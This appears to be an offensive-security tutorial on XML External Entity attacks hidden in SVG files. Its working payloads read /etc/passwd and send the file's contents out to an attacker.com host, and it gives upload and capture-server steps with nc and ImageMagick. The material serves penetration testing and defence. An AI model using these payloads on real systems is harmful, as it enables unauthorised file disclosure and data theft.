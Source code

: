 ```yaml
---
title: Exploiting XXE Vulnerabilities in SVG Files
description: Learn how to exploit XML External Entity (XXE) vulnerabilities in SVG
  files for data disclosure and OOB exfiltration.
keywords:
- XXE vulnerability
- SVG attack
- data exfiltration
- XML parsing
- security
- cybersecurity
- OOB exfiltration
- information disclosure
- XXE in SVG
---
```


# XXE Inside SVG

## Context

The objective of this article is to demonstrate the exploitation of XML External Entity (XXE) vulnerabilities using SVG files. This technique can achieve sensitive data disclosure or out-of-band (OOB) data exfiltration. It is assumed that the reader understands XML structure and parsing, the SVG file format and embedding, entity declaration and referencing in XML, and general XXE attack principles.

## Theory

### SVG as an XML Attack Surface

SVG (Scalable Vector Graphics) is a versatile, XML-based image format widely used for defining vector-based graphics on the web. Unlike raster graphics, SVG images are defined in plaintext, allowing them to include XML entities and external references. This capability makes SVG files a potential vector for XML External Entity (XXE) payloads. 

Applications that process SVG files without adequately disabling external entity resolution can be susceptible to XXE attacks, presenting an increased attack surface when SVG files are wrongly trusted and processed server-side.

### SVG Text Injection and Rasterization XXE

By injecting malicious XML DOCTYPE declarations and entities into SVG files, attackers can manipulate how image processing libraries handle these files. Attacks occur when these images are parsed without disabling entity resolution, exploiting the fact that libraries like ImageMagick or librsvg frequently process such images.

The attack sequence involves crafting an SVG file containing a DOCTYPE definition with an external entity that references local system files. When parsed, the system attempts to resolve these entities, potentially exposing or leaking sensitive data.

### Out-of-Band (OOB) Data Exfiltration via SVG

An advanced XXE attack may facilitate Out-of-Band (OOB) data exfiltration. This technique involves crafting SVG files that, when parsed, issue OOB network requests to attacker-controlled servers, leaking sensitive files or data.

In this attack sequence, a malicious SVG defines an external entity referring to a sensitive file, such as `/etc/passwd`. This entity is then embedded into an OOB payload within the SVG, which, when processed, results in the sensitive data being sent to an external server controlled by the attacker.

### Processing Contexts and Threat Surface

The SVG file format's flexibility can be exploited when applications trust uploaded files for purposes like avatars, document previews, or image conversions. SVG files might be parsed server-side in various contexts, revealing the application's XML parser to manipulation. Misconfigured parsing or error-prone trust assumptions amplify the vulnerability, requiring attackers to explore every entry point that could pass SVG data to a web application's backend.

## Practice

### Embedding a Basic XXE Payload in SVG

To execute a simple XXE attack using SVG files:

- **Craft the malicious SVG:**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text y="20">&xxe;</text>
</svg>
```

This SVG contains a DOCTYPE with an external entity `xxe` that tries to access the file `/etc/passwd`.

- **Upload the SVG:**

  * Submit this SVG to a web application that accepts SVG files as uploads, such as for avatars or content creation.

- **Trigger SVG rendering:**

  * Render the uploaded SVG within the application to trigger XML parsing engine to process the SVG, checking for any disclosure or leakage of local file contents.

### OOB XXE Data Exfiltration via SVG

For OOB exfiltration attacks:

- **Craft the SVG for exfiltration:**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 '<!ENTITY exfil SYSTEM "http://attacker.com/?data=%data;">'>
%param1;]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text y="20">&exfil;</text>
</svg>
```

This SVG uses an OOB exfiltration technique by sending data to an external HTTP server under the attacker's control.

- **Host a capture server:**

  * Set up a server (e.g., using `nc` or Python's `http.server`) to listen for incoming requests from the SVG payload.

- **Upload and parse:**

  * Upload this SVG to initiate server-side parsing, which may result in file contents being exfiltrated to the control server.

### Testing SVG XXE with Image Processing Libraries

Testing XXE vulnerabilities in image processing libraries:

- **Process SVG with ImageMagick:**

    ```bash
    convert malicious.svg output.png
    ```
  
  * This command using ImageMagick processes the SVG file, potentially triggering the XXE vulnerability.

- **Monitor for unauthorized activities:**

  * Check for file system access or unsolicited network requests as indicators of a successful XXE attack via image conversion tools.

## Tools

- **Burp Suite**
- **ImageMagick**
- **nc**
- **Python HTTP server**